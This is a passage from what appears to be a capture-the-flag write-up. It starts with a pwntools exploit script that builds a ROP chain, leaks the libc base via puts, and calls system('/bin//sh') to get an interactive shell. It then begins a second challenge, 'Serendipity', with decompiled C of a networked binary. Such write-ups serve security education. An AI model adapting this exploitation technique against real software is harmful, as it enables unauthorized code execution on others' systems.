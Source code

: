 ```python
pl+=p64(pop_rdi)
pl+=p64(d)
pl+=p64(pop_rsi_r15)
pl+=p64(0x404f00)
pl+=p64(0)
pl+=p64(0x000000000401180)
pl+=p64(ret)
pl+=p64(pop_rdi)
pl+=p64(d)
pl+=p64(pop_rsi_r15)
pl+=p64(0x404018)
pl+=p64(0)
pl+=p64(ret)
pl+=p64(0x000000000401180)
pl+=p64(pop_rdi)
pl+=p64(0x404f00)
pl+=p64(ret)
pl+=p64(elf.sym.puts)


for i in range(0, len(pl), 8):
    io.sendline(str(u64(pl[i:i+8].ljust(8, b'\0'))).encode())
pause()
io.sendline(str(magic).encode())

io.recvuntil(b' Welcome to sanctuary of time')
io.recvline()

libc.address=u64(io.recv(6).ljust(8, b'\0')) - libc.sym.puts
print(hex(libc.address))
og=libc.address+0x1052fa
pause()
io.sendline(str(u64(b'/bin//sh\0')).encode())
pause()
io.sendline(str(libc.sym.system).encode())
io.interactive()
```

# 2. Serendipity

## Overview

![image](https://hackmd.io/_uploads/B1r_03VUa.png)

Hmm, it's a 64 bits ELF file and has full protect, sound good to play with it.

## Analysis

```cpp
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  unsigned int i; // [rsp+4h] [rbp-ECh]
  int v4; // [rsp+8h] [rbp-E8h]
  int j; // [rsp+Ch] [rbp-E4h]
  pthread_t newthread; // [rsp+10h] [rbp-E0h] BYREF
  struct sockaddr *addr; // [rsp+18h] [rbp-D8h]
  void *v8; // [rsp+20h] [rbp-D0h]
  fd_set *p_readfds; // [rsp+28h] [rbp-C8h]
  void *buf; // [rsp+30h] [rbp-C0h]
  ssize_t v11; // [rsp+38h] [rbp-B8h]
  struct timeval timeout; // [rsp+40h] [rbp-B0h] BYREF
```